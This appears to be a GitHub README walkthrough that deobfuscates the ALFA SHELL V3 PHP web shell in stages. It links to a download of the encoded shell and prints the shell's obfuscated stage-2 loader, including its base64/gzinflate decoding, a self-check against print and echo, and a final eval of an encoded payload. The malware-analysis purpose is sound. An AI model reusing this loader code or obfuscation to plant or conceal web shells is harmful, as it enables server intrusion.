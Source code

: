 # DeObfuscation ALFA SHELL V3

### How to decode ALFA SHELL V3?

1 - Download encode shell : http://getalfa.rf.gd/?i=1 <br />

2 - Open file `alfav3-encoded.php` we will see `$MuSoTSurZq='e'.'v'.'al'.'';`  <br />

Link Image 1 <br />

### Start Stage 1

3 - Replace`$MuSoTSurZq='e'.'v'.'al'.'';` to `$MuSoTSurZq='echo';` <br /> 

Link Image 2 <br />

4 - Now we should run `php alfav3-encoded.php > decode_stage_1.php` <br />


5 - Again encoded ALFA, We see intersting message :

``` /* You're killing me again 🎧 Am I still in your head ? 🎧 You used to light me up 🎧 Now you shut me down -- Solevisible */ ```

This message of music `Archive - Again ` Music linke : https://www.youtube.com/watch?reload=9&v=NF52fcoIqg4

### Start Stage 2

6 -
```php
$阿尔法词=十六进制转换('666736736265687075726134636f5f746e646978');$函数存在=$阿尔法词{0}.$阿尔法词{8}.$阿尔法词{16}.$阿尔法词{12}.$阿尔法词{15}.$阿尔法词{18}.$阿尔法词{13}.$阿尔法词{16}.$阿尔法词{14}.$阿尔法词{5}.$阿尔法词{19}.$阿尔法词{18}.$阿尔法词{3}.$阿尔法词{15}.$阿尔法词{3};function 十六进制转换($十六进制){$串='';for($计数=0;$计数<strlen($十六进制);$计数+=2)$串.=chr(hexdec(substr($十六进制,$计数,2)));return $串;}function 编码器($串){return __ZGVjb2Rlcg($串);}function 随机($串){return ord($串);}function 内容($串){return @file_get_contents($串);}if(!$函数存在("阿尔法功能启动")){function 阿尔法功能启动($阿尔法变量的一个){$阿尔法变量的一个=编码器($阿尔法变量的一个);$阿尔法功能启动=0;$阿尔法两个变量=0;$阿尔法变三=0;$阿尔法四个变量=(随机($阿尔法变量的一个[1])<<8)+随机($阿尔法变量的一个[2]);$阿尔法五个变量=3;$阿尔法六个变量=0;$阿尔法七个变量=16;$阿尔法变八="";$阿尔法九变=strlen($阿尔法变量的一个);$阿尔法变量十=__FILE__;$阿尔法变量十=内容($阿尔法变量十);$阿尔法变量十一=0;preg_match(编码器("LyhwcmludHxzcHJpbnR8ZWNobykv"),$阿尔法变量十,$阿尔法变量十一);for(;$阿尔法五个变量<$阿尔法九变;){if(count($阿尔法变量十一)) exit;if($阿尔法七个变量==0){$阿尔法四个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法四个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++]);$阿尔法七个变量=16;}if($阿尔法四个变量&0x8000){$阿尔法功能启动=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<4);$阿尔法功能启动+=(随机($阿尔法变量的一个[$阿尔法五个变量])>>4);if($阿尔法功能启动){$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])&0x0F)+3;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变三++)$阿尔法变八[$阿尔法六个变量+$阿尔法变三]=$阿尔法变八[$阿尔法六个变量-$阿尔法功能启动+$阿尔法变三];$阿尔法六个变量+=$阿尔法两个变量;}else{$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法两个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++])+16;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变八[$阿尔法六个变量+$阿尔法变三++]=$阿尔法变量的一个[$阿尔法五个变量]);$阿尔法五个变量++;$阿尔法六个变量+=$阿尔法两个变量;}}else $阿尔法变八[$阿尔法六个变量++]=$阿尔法变量的一个[$阿尔法五个变量++];$阿尔法四个变量<<=1;$阿尔法七个变量--;if($阿尔法五个变量==$阿尔法九变){$阿尔法变量十=implode("",$阿尔法变八);$阿尔法变量十="?".">".$阿尔法变量十;return $阿尔法变量十;}}}
}
print_r(阿尔法功能启动(""));
eval(阿尔法功能启动("QAAAPD9waH .... "));
```
I change code of stage 2 of chines language `decode_stage_2.php`: 

```php

<?php

$txjCEtOsnV='f'.'u'.'nc'.'t'.'io'.'n'.'_'.'exist'.'s';
$AiFWszqQIS='cha'.'r'.'Cod'.'eAt';$XBHjjUIPPF='echo';
$HchfyPfIrM='gzinfl'.'ate';if(!$txjCEtOsnV('b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'')){function VVjQyGUShF($data){if(empty($data))return;$b64='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';$o1 = $o2 = $o3 = $h1 = $h2 = $h3 = $h4 = $bits = $i = 0;$ac = 0;$enc = '';$tmp_arr = array();if(!$data){return $data;}do{$o1 = $AiFWszqQIS($data, $i++);$o2 = $AiFWszqQIS($data, $i++);$o3 = $AiFWszqQIS($data, $i++);$bits = $o1 << 16 | $o2 << 8 | $o3;$h1 = $bits >> 18 & 0x3f;$h2 = $bits >> 12 & 0x3f;$h3 = $bits >> 6 & 0x3f;$h4 = $bits & 0x3f;$tmp_arr[$ac++] = charAt($b64, $h1).charAt($b64, $h2).charAt($b64, $h3).charAt($b64, $h4);} while ($i < strlen($data));$enc = implode($tmp_arr, '');$r = (strlen($data) % 3);return ($r ? substr($enc, 0, ($r - 3)) : $enc).substr('===', ($r || 3));}function charCodeAt($data, $char){ return ord(substr($data, $char, 1));}function charAt($data, $char){return substr($data, $char, 1);}}else{function VVjQyGUShF($s){$b='b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'';return $b($s);}}if(!$txjCEtOsnV('ba'.'se6'.'4_d'.'e'.'c'.'ode')){function prGVlydQcW($input){if(empty($input))return;$keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";$i = 0;$output = "";$input = preg_replace("[^A-Za-z0-9\+\/\=]", "", $input);do{$enc1 = strpos($keyStr, substr($input, $i++, 1));$enc2 = strpos($keyStr, substr($input, $i++, 1));$enc3 = strpos($keyStr, substr($input, $i++, 1));$enc4 = strpos($keyStr, substr($input, $i++, 1));$chr1 = ($enc1 << 2) | ($enc2 >> 4);$chr2 = (($enc2 & 15) << 4) | ($enc3 >> 2);$chr3 = (($enc3 & 3) << 6) | $enc4;$output = $output . chr((int) $chr1);if ($enc3 != 64) {$output = $output . chr((int) $chr2);}if ($enc4 != 64) {$output = $output . chr((int) $chr3);}$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";}while($i < strlen($input));return $output;}}else{function prGVlydQcW($s){$b='ba'.'se6'.'4_d'.'e'.'c'.'ode';return $b($s);}}$lOUhvmLHrl='c'.'reat'.'e'.'_'.'funct'.'i'.'on';$BLKLPTRwbV = $lOUhvmLHrl('$lY',$XBHjjUIPPF.'('.$HchfyPfIrM.'('.'pr'.'G'.'V'.'lyd'.'Q'.'c'.'W'.'($lY)'.')'.')'.';');


$keys=func_1('666736736265687075726134636f5f746e646978');

$split_keys=$keys{0}.$keys{8}.$keys{16}.$keys{12}.$keys{15}.$keys{18}.$keys{13}.$keys{16}.$keys{14}.$keys{5}.$keys{19}.$keys{18}.$keys{3}.$keys{15}.$keys{3};
function func_1($arg_1){
    $串='';
    for($i=0;$i<strlen($arg_1);$i+=2)
    $串.=chr(hexdec(substr($arg_1,$i,2)));
    return $串;
}

function __ZGVjb2Rlcg($s)
{
    return prGVlydQcW($s);
}

function func_2($串){
        return __ZGVjb2Rlcg($串);
}
function func_3_ord($串){
        return ord($串);
}
function func_4($串){
        return @file_get_contents($串);
}

if(!$split_keys("func_5")) {
        $func_5_arg = "";
            $func_5_arg=func_2($func_5_arg);
            $func_5=0;
            $counter=0;
            $Counter_5=0;
            $var_2=(func_3_ord($func_5_arg[1])<<8)+func_3_ord($func_5_arg[2]);
            $Counter_2=3;
            $Counter_3=0;
            $Counter_4=16;
            $ret_str="";
            $get_length_arg=strlen($func_5_arg);
            $get_files=__FILE__;
            $get_files=func_4($get_files);
            $get_files一=0;
            preg_match(func_2("LyhwcmludHxzcHJpbnR8ZWNobykv"),$get_files,$get_files一);

            for(;$Counter_2<$get_length_arg;){
         
                if($Counter_4==0){
                    $var_2=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                    $var_2+=func_3_ord($func_5_arg[$Counter_2++]);
                    $Counter_4=16;
                }
                if($var_2&0x8000){
                    $func_5 = (func_3_ord($func_5_arg[$Counter_2++])<<4);
                    $func_5 += (func_3_ord($func_5_arg[$Counter_2])>>4);
                    if($func_5){
                        $counter=(func_3_ord($func_5_arg[$Counter_2++])&0x0F)+3;
                        for($Counter_5=0;$Counter_5<$counter;$Counter_5++)
                            $ret_str[$Counter_3+$Counter_5] = $ret_str[$Counter_3-$func_5+$Counter_5];
                            $Counter_3+=$counter;
                        }
                        else{
                            $counter=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                            $counter+=func_3_ord($func_5_arg[$Counter_2++])+16;
                            for($Counter_5=0;$Counter_5<$counter;
                            $ret_str[$Counter_3+$Counter_5++]=$func_5_arg[$Counter_2]);
                            $Counter_2++;
                            $Counter_3+=$counter;
                        }
                    }
                    else
                    $ret_str[$Counter_3++]=$func_5_arg[$Counter_2++];
                    $var_2<<=1;
                    $Counter_4--;
                    if($Counter_2==$get_length_arg){
                        echo $ret_str;
                    }
        }
}

```

7 - Again we run `php decode_stage_2.php > final_alfashell.php` seccessfully decode ALFA SHELL :),


Thanks,
Ramin - kernel security engineering 
